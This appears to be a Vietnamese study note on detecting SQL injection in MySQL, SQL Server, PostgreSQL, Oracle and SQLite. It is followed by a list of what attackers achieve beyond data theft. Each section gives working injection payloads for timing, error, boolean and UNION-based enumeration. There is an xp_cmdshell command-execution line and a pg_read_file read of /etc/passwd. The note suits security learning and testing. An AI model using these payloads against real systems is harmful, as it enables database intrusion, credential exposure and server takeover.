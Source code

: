 ## Người thực hiện: Mai Anh
## Cập nhật: 22/08/2025 
---

1. Các phát hiện đối với mỗi loại db như kiểu SQL server thì có dấu hiệu gì

2. Ngoài thu thập dữ liệu từ db qua SQLi thì còn có thể làm được gì thêm 

# Phát hiện SQL Injection trên các loại CSDL

Mỗi hệ quản trị cơ sở dữ liệu (DBMS) có cú pháp và hàm riêng.  
Dưới đây là một số kỹ thuật phát hiện đặc trưng:

## MySQL
### Dấu hiệu nhận diện
- Error messages chứa "MySQL", "mysqli_", hoặc "Warning: mysql_"
- Hỗ trợ comment style `--`  và `#`
- Có thể stack queries với `;`

### Kỹ thuật phát hiện
**Time-based**
```sql
' AND SLEEP(5)-- 
' UNION SELECT SLEEP(5)-- 
```

**Error-based**
```sql
' AND EXTRACTVALUE(1, CONCAT(0x7e, VERSION(), 0x7e))-- 
' AND UPDATEXML(1, CONCAT(0x7e, DATABASE(), 0x7e), 1)-- 
```

**Boolean-based**
```sql
' AND SUBSTRING(VERSION(),1,1)='5'-- 
```

**Information gathering**
```sql
' UNION SELECT VERSION(), DATABASE(), USER()-- 
' UNION SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA--
```

## SQL Server (MSSQL)
### Dấu hiệu nhận diện
- Error messages chứa "Microsoft OLE DB", "SQLSTATE", hoặc "Microsoft SQL Server"
- Hỗ trợ `@@` variables
- Có thể sử dụng `xp_cmdshell` để thực thi lệnh hệ thống

### Kỹ thuật phát hiện
**Time-based**
```sql
'; WAITFOR DELAY '00:00:05'-- 
' AND 1=(SELECT COUNT(*) FROM sysusers AS sys1, sysusers AS sys2, sysusers AS sys3, sysusers AS sys4, sysusers AS sys5)-- 
```

**Error-based**
```sql
' AND 1=CONVERT(INT, @@VERSION)-- 
' UNION SELECT NULL, NULL WHERE 1=CONVERT(INT, DB_NAME())-- 
```

**Boolean-based**
```sql
' AND SUBSTRING(@@VERSION,1,1)='M'-- 
```

**Information gathering**
```sql
' UNION SELECT @@VERSION, DB_NAME(), SYSTEM_USER-- 
' UNION SELECT name FROM master..sysdatabases-- 
' UNION SELECT name FROM syscolumns WHERE id=(SELECT id FROM sysobjects WHERE name='users')-- 
```

**Command execution (nếu có quyền)**
```sql
'; EXEC xp_cmdshell 'whoami'--
```

## PostgreSQL
### Dấu hiệu nhận diện
- Error messages chứa "PostgreSQL", "psql", hoặc "pg_"
- Hỗ trợ `::` casting operator
- Case-sensitive string comparisons

### Kỹ thuật phát hiện
**Time-based**
```sql
'; SELECT PG_SLEEP(5)-- 
' AND 1=(SELECT COUNT(*) FROM GENERATE_SERIES(1,1000000))-- 
```

**Error-based**
```sql
' AND CAST(VERSION() AS INT)-- 
' UNION SELECT CAST(CURRENT_DATABASE() AS INT)-- 
```

**Boolean-based**
```sql
' AND SUBSTR(VERSION(),1,10)='PostgreSQL'-- 
```

**Information gathering**
```sql
' UNION SELECT VERSION(), CURRENT_DATABASE(), CURRENT_USER-- 
' UNION SELECT schemaname FROM pg_tables-- 
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'-- 
```

**File operations (nếu có quyền)**
```sql
' UNION SELECT pg_read_file('/etc/passwd')--
```

## Oracle
### Dấu hiệu nhận diện
- Error messages chứa "ORA-", "Oracle", hoặc "OracleDriver"
- Yêu cầu `FROM dual` cho single value queries
- Sử dụng `||` để concatenate strings

### Kỹ thuật phát hiện
**Time-based**
```sql
' AND (SELECT COUNT(*) FROM ALL_USERS T1, ALL_USERS T2, ALL_USERS T3)>0-- 
' UNION SELECT DBMS_PIPE.RECEIVE_MESSAGE('x',5) FROM DUAL-- 
```

**Error-based**
```sql
' AND CAST((SELECT BANNER FROM V$VERSION WHERE ROWNUM=1) AS INT)=1-- 
' UNION SELECT TO_CHAR(1/0) FROM DUAL-- 
```

**Boolean-based**
```sql
' AND SUBSTR(BANNER,1,6)='Oracle' AND '1'='1'-- 
```

**Information gathering**
```sql
' UNION SELECT BANNER, NULL FROM V$VERSION-- 
' UNION SELECT USERNAME, NULL FROM ALL_USERS-- 
' UNION SELECT TABLE_NAME, NULL FROM ALL_TABLES-- 
```
## SQLite

### Dấu hiệu nhận diện
- Error messages chứa "SQLite", "sqlite3", hoặc "database is locked"
- Không hỗ trợ stored procedures
- Sử dụng `sqlite_master` table

### Kỹ thuật phát hiện
**Time-based (limited options)**
```sql
' AND RANDOM()=RANDOM()-- 
```

**Error-based**
```sql
' AND CAST(SQLITE_VERSION() AS INT)=1-- 
```

**Boolean-based**
```sql
' AND SUBSTR(SQLITE_VERSION(),1,1)='3'-- 
```

**Information gathering**
```sql
' UNION SELECT SQLITE_VERSION(), NULL-- 
' UNION SELECT sql, name FROM sqlite_master WHERE type='table'-- 
' UNION SELECT name, NULL FROM sqlite_master WHERE type='table'--
```


# Ứng dụng SQLi ngoài việc thu thập dữ liệu

Ngoài việc lấy dữ liệu nhạy cảm, SQLi còn cho phép kẻ tấn công:

- **Bypass xác thực** → Đăng nhập không cần mật khẩu.  
- **Chèn, sửa hoặc xóa dữ liệu** → Làm thay đổi hoặc mất mát dữ liệu.  
- **Chiếm quyền điều khiển hệ thống** → Kết hợp với lỗ hổng khác để thực thi lệnh hệ điều hành.  
- **Phát hiện cấu trúc database** → Liệt kê bảng, cột, user DB.  
- **Leo thang đặc quyền** → Nếu tài khoản DB có quyền cao, có thể chiếm toàn bộ hệ thống.  
- **Tạo backdoor trong DB** → Cài đặt trigger hoặc stored procedure độc hại để duy trì truy cập.  
